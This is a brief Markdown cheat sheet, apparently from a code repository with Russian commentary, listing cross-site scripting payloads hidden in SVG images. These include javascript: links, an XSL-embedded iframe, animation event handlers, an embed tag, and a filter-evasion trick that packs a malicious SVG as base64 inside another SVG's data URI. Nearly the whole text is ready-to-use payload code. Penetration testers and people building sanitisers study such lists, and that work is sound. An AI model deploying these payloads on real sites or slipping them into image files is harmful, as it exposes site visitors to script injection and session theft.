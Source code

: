 #XSS in SVG small cheatlist

##xlink href

```
<svg xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(documen.domain)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```

##iframe inside SVG
```
<?xml version="1.0"?>
<?xml-stylesheet type="text/xml" href="#stylesheet"?>
<!DOCTYPE doc [ <!ATTLIST xsl:stylesheet id ID #REQUIRED>]>
<svg xmlns="http://www.w3.org/2000/svg">
  <xsl:stylesheet id="stylesheet" version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
      <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert(1)"></iframe>
    </xsl:template>
  </xsl:stylesheet>
  <circle fill="red" r="40"></circle>
</svg>
```

##set attribute
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<defs>
<circle r="0" cx="0" cy="0" style="fill: #F00">
<set attributeName="fill" attributeType="CSS" onbegin='alert(document.domain)'
onend='alert("onend")' to="#00F" begin="0s" dur="999s" />
</circle>
</defs>
</svg>
```

##embed tag

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<foreignObject width="100" height="50" requiredExtensions="http://www.w3.org/1999/xhtml">
<embed xmlns="http://www.w3.org/1999/xhtml" src="javascript:alert(location)" />
</foreignObject>
</svg>
```

##Закатывание svg в svg с помощью data uri

Используя xlink и data uri можно упаковывать svg (и нетолько их) внутрь других svg

Конструктция будет выглядеть примерно таки оброазром:

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<use xlink:href="data:application/xml;base64 ,
<BASE64>#<OBJECT_ID>"/>
</svg>
```



###Пример как упаковать svg c XSS в xlink:href

1 Добавляем к нашей svg свой id:

```
<svg id="test" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(documen.domain)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```
2 Энкодим в base64

```
PHN2ZyBpZD0idGVzdCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIgp4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluayIKd2lkdGg9IjEwMCIgaGVpZ2h0PSIxMDAiPgo8YSB4bGluazpocmVmPSJqYXZhc2NyaXB0OmFsZXJ0KGRvY3VtZW4uZG9tYWluKSI+CjxyZWN0IHg9IjAiIHk9IjAiIHdpZHRoPSIxMDAiIGhlaWdodD0iMTAwIiAvPgo8L2E+Cjwvc3ZnPg==
``` 

3 Вставляем в скелет из начала статейки

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<use xlink:href="data:application/xml;base64 ,
PHN2ZyBpZD0idGVzdCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIgp4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluayIKd2lkdGg9IjEwMCIgaGVpZ2h0PSIxMDAiPgo8YSB4bGluazpocmVmPSJqYXZhc2NyaXB0OmFsZXJ0KGRvY3VtZW4uZG9tYWluKSI+CjxyZWN0IHg9IjAiIHk9IjAiIHdpZHRoPSIxMDAiIGhlaWdodD0iMTAwIiAvPgo8L2E+Cjwvc3ZnPg==#test"/>
</svg>
```


###Пример как упаковать svg c XSS в set attribute

1 Докидываем кнашей фигурке id и вставляем ссылку на неё

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<defs>
<circle id="test" r="0" cx="0" cy="0" style="fill: #F00">
<set attributeName="fill" attributeType="CSS" onbegin='alert(document.domain)'
onend='alert("onend")' to="#00F" begin="0s" dur="999s" />
</circle>
</defs>
<use xlink:href="#test"/>
</svg>
```

2 Энкодим в base64

```
PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIj4KPGRlZnM+CjxjaXJjbGUgaWQ9InRlc3QiIHI9IjAiIGN4PSIwIiBjeT0iMCIgc3R5bGU9ImZpbGw6ICNGMDAiPgo8c2V0IGF0dHJpYnV0ZU5hbWU9ImZpbGwiIGF0dHJpYnV0ZVR5cGU9IkNTUyIgb25iZWdpbj0nYWxlcnQoZG9jdW1lbnQuZG9tYWluKScKb25lbmQ9J2FsZXJ0KCJvbmVuZCIpJyB0bz0iIzAwRiIgYmVnaW49IjBzIiBkdXI9Ijk5OXMiIC8+CjwvY2lyY2xlPgo8L2RlZnM+Cjx1c2UgeGxpbms6aHJlZj0iI3Rlc3QiLz4KPC9zdmc+
```

3 Вставляем в скелет из начала статейки

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<use xlink:href="data:application/xml;base64 ,
PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIj4KPGRlZnM+CjxjaXJjbGUgaWQ9InRlc3QiIHI9IjAiIGN4PSIwIiBjeT0iMCIgc3R5bGU9ImZpbGw6ICNGMDAiPgo8c2V0IGF0dHJpYnV0ZU5hbWU9ImZpbGwiIGF0dHJpYnV0ZVR5cGU9IkNTUyIgb25iZWdpbj0nYWxlcnQoZG9jdW1lbnQuZG9tYWluKScKb25lbmQ9J2FsZXJ0KCJvbmVuZCIpJyB0bz0iIzAwRiIgYmVnaW49IjBzIiBkdXI9Ijk5OXMiIC8+CjwvY2lyY2xlPgo8L2RlZnM+Cjx1c2UgeGxpbms6aHJlZj0iI3Rlc3QiLz4KPC9zdmc+#test"/>
</svg>
```
